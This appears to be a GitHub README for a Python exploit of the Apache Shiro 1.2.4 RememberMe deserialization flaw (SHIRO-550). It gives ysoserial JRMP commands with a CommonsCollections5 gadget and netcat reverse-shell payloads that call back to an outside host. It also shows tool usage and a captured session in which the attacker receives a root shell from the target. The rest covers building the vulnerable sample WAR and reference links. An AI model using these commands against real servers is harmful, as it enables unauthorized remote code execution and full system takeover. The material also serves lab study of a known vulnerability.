


# Shiro RememberMe 1.2.4 反序列化漏洞（SHIRO-550）



## commons-collections-3.2.1.jar

`java -jar ysoserial-0.0.6-SNAPSHOT-all.jar JRMPClient "10.10.20.166:12345" |python exp.py`

`java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 12345 CommonsCollections5 'nc -e /bin/sh 192.168.5.86 8989'`

`nc -nlvp 8989`



## python usage:

```
python3 shiro_rce.py


   _____ _    _ _____ _____   ____         _____ _____  ___
  / ____| |  | |_   _|  __ \ / __ \       | ____| ____|/ _ \
 | (___ | |__| | | | | |__) | |  | |______| |__ | |__ | | | |
  \___ \|  __  | | | |  _  /| |  | |______|___ \|___ \| | | |
  ____) | |  | |_| |_| | \ \| |__| |       ___) |___) | |_| |
 |_____/|_|  |_|_____|_|  \_\____/       |____/|____/ \___/

            Shiro RememberMe 1.2.4 反序列化漏洞


[+] Usage: python3 shiro_rce.py http://10.10.20.166:8080/shiro/ command

```

##  get war for samples-web-1.2.4.war

```
git clone https://github.com/apache/shiro.git
cd shiro
git checkout shiro-root-1.2.4
mvn install
```
#### mvn version

```
mvn -v
Apache Maven 3.6.2 (40f52333136460af0dc0d7232c0dc0bcf0d9e117; 2019-08-27T11:06:16-04:00)
Maven home: /opt/apache-maven-3.6.2
Java version: 1.8.0_60, vendor: Oracle Corporation, runtime: /opt/jdk1.8.0_60/jre
Default locale: en_US, platform encoding: UTF-8
OS name: "linux", version: "4.19.0-kali1-amd64", arch: "amd64", family: "unix"

```

#### cat ~/.m2/toolchains.xml 
```
<?xml version="1.0" encoding="UTF8"?>
<toolchains>
    <toolchain>
      <type>jdk</type>
      <provides>
        <version>1.6</version>
        <vendor>sun</vendor>
      </provides>
      <configuration>
           <jdkHome>/opt/jdk/jdk1.6.0_45</jdkHome>
      </configuration>
    </toolchain> 
</toolchains>

```


## Reverse shell

```
python3 shiro_rce.py http://10.10.20.166:8080/samples-web-1.2.4/ "nc -e /bin/sh 192.168.5.86 9999"


   _____ _    _ _____ _____   ____         _____ _____  ___
  / ____| |  | |_   _|  __ \ / __ \       | ____| ____|/ _ \
 | (___ | |__| | | | | |__) | |  | |______| |__ | |__ | | | |
  \___ \|  __  | | | |  _  /| |  | |______|___ \|___ \| | | |
  ____) | |  | |_| |_| | \ \| |__| |       ___) |___) | |_| |
 |_____/|_|  |_|_____|_|  \_\____/       |____/|____/ \___/

            Shiro RememberMe 1.2.4 反序列化漏洞


2019-10-25 13:43:33

[+] Send POC Success
[+] Exit Shiro RCE Vuln
```

```
C:\Users\CTF>nc -nlvp 9999
listening on [any] 9999 ...
connect to [192.168.5.86] from (UNKNOWN) [10.10.20.166] 38656
id
uid=0(root) gid=0(root) groups=0(root)
cd /tmp
ls
123123123123
```

## 参考链接：

http://blog.orange.tw/2018/03/pwn-ctf-platform-with-java-jrmp-gadget.html

https://bling.kapsi.fi/blog/jvm-deserialization-broken-classldr.html

https://blog.zsxsoft.com/post/35

https://paper.seebug.org/shiro-rememberme-1-2-4/
